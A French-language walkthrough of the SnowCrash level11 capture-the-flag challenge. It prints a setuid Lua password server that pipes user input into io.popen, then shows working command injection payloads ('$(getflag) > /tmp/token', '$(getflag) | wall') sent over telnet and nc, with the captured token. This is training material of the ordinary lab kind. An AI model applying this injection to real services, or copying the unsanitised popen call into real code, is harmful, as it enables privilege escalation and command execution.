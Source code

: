 ```shell
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
Ce code est écrit en Lua et il implémente un serveur simple qui écoute sur le port 5151 de l'adresse IP 127.0.0.1. Le serveur demande à l'utilisateur d'entrer un mot de passe, 
le hache en utilisant la fonction "hash", et le compare à une chaîne de hachage spécifique.

La fonction "hash" utilise le programme sha1sum pour calculer le hash SHA-1 du mot de passe entré par l'utilisateur. La fonction retourne la chaîne de hachage SHA-1 de longueur 40 caractères.

Le serveur est mis en boucle infinie avec une instruction "while 1 do". Pour chaque connexion client, il attend que l'utilisateur entre un mot de passe. Si le mot de passe entré correspond à la chaîne de hachage spécifique, le serveur envoie un message "Gz you dumb*" (félicitations, tu es idiot) au client, sinon, il envoie un message "Erf nope..\n" (désolé, mot de passe incorrect).

La faille est dans io.popen:
La fonction io.popen() en Lua est utilisée pour ouvrir un processus en mode lecture ou écriture. Elle prend en entrée une chaîne de caractères qui spécifie la commande à exécuter et le mode d'ouverture.

en mettant une commande getflag qui fait une sortie dans un fichier temporaire ça marche:
```shell
telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: $(getflag) > /tmp/token
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

ou 
```shell
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) | wall
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 14:46 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```
